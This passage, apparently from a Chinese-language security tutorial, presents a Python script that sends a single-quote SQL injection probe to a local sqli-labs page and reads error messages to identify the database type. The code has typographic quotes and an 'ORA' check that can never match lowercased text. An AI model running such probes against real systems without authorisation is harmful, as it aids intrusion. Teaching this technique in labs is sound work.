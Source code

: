 我们将创建一个脚本，将基本 SQL 注入字符串发送到目标 URL，记录输出，并与错误消息中的已知短语进行比较，以识别底层系统。

## 怎么做…

我们将使用的脚本如下所示：

```py
import requests

url = “http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=”
initial = “'”
print “Testing “+ url
first = requests.post(url+initial)

if “mysql” in first.text.lower(): 
  print “Injectable MySQL detected”
elif “native client” in first.text.lower():
  print “Injectable MSSQL detected”
elif “syntax error” in first.text.lower():
  print “Injectable PostGRES detected”
elif “ORA” in first.text.lower():
  print “Injectable Oracle detected”
else:
  print “Not Injectable J J”
```

以下是使用此脚本时产生的输出示例：

```py
Testing http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=
Injectable MySQL detected

```

## 它是如何工作的…

我们导入库并手动设置 URL。如果需要，我们可以将其设置为`sys.argv`变量；但是，我在这里硬编码它以显示预期的格式。我们将初始注入字符串设置为单引号，并打印测试开始：

```py
url = “http://127.0.0.1/SQL/sqli-labs-master/Less-1/index.php?id=”
initial = “'”
print “Testing “+ url
```

我们提出第一个请求，作为我们提供的 URL 和撇号：

```py
first = requests.post(url+initial)
```

接下来的几行是我们用来识别底层数据库的检测方法。MySQL 的标准错误是：

```py
You have an error in your SQL syntax; check the manual
that corresponds to your MySQL server version for the
right syntax to use near '\'' at line 1

```
